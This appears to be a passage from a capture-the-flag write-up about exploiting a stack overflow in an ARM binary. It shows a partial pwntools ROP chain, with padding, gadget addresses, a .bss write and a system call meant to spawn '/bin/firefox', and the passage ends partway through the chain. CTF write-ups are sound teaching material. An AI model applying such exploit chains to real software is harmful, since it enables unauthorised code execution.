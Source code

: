 <img src="/images/redmask2020/debug.png"/>

as you can see here, we have overwritten the `%pc`

<img src="/images/redmask2020/smashbro.png"/>

## Exploitation

now we can try to write something on the `.bss` segment. for example I will try to write `/bin/firefox` to the 
`.bss` segment then spawn firefox 

now our exploit will look like this

{% highlight python %}
from pwn import *

pop_r0_r1_r2_r3 = 0x0001e945
str_r1_r3_pop_r4_r5_r6 = 0x00036bb3
system = 0x00014C10
bss = 0x00073e80+1

p = "A" * 36
p += p32(pop_r0_r1_r2_r3)
p += p32(bss)
p += "/bin" 
p += p32(0xdeadbeef)
p += p32(bss)
p += p32(str_r1_r3_pop_r4_r5_r6)
p += p32(0xdeadbeef)
p += p32(0xdeadbeef)
p += p32(0xdeadbeef)